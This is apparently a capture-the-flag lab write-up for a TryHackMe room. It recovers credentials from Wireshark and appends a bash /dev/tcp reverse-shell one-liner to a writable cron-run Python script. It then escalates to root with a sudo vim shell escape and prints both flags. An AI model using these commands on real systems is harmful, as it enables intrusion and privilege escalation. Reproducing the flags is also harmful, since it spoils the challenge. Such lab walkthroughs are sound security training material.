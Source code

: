 <img width="1840" height="969" alt="Screenshot From 2025-09-10 22-56-41" src="https://github.com/user-attachments/assets/562a7ac2-301f-464a-8afd-5c1ab4563d20" />

After that we can find in wireshark a login data, and after try we have access to ssh.

<img width="1840" height="969" alt="Screenshot From 2025-09-10 22-56-51" src="https://github.com/user-attachments/assets/7a5a0998-b1a9-425d-8782-3051ee8ecd21" />

```abap
username=daniel&password=C%40ughtm3napping123
```

We first decode the password and then get the real password

```abap
C@ughtm3napping123
```

Now we login to the admin page with these credentials

After running pspy I noticed that a cron job was executing `/home/adrian/query.py` every minute as adrian. Since the script was writable, I appended a reverse shell one-liner directly into it so that when the cron job triggered, it would execute my payload. I used a simple Python import with `os.system` to call bash and connect back to my machine on port 4444. On my attacker box I set up a netcat listener with `nc -lvnp 4444` and waited. As soon as the cron job fired on the next minute mark, the script executed my injected code and I caught a shell as adrian. This gave me the next level of access by taking advantage of a writable cron-executed Python script.

```abap
echo 'import os; os.system("bash -c '\''bash -i >& /dev/tcp/10.201.22.32/4444 0>&1'\''")' >> /home/adrian/query.py 
# On your box: 
nc -lvnp 4444 
# wait up to 60s for the cron tick
```

Flag 1 

> THM{Wh@T_1S_Tab_NAbbiN6_&_PrinCIPl3_of_L3A$t_PriViL36E}
> 

Now to get root access we do `sudo -l`

```abap
adrian@ip-10-201-84-104:~$ sudo -l
Matching Defaults entries for adrian on ip-10-201-84-104:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on ip-10-201-84-104:
    (root) NOPASSWD: /usr/bin/vim
```

https://gtfobins.github.io/gtfobins/vim/

```abap
File read
It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

vim file_to_read
```

run this command

```abap
sudo vim -c ':!/bin/sh'
```

Flag 2 

> THM{Adm1n$_jU$t_c@n'T_stAy_Aw@k3_T$k_tsk_tSK}
>
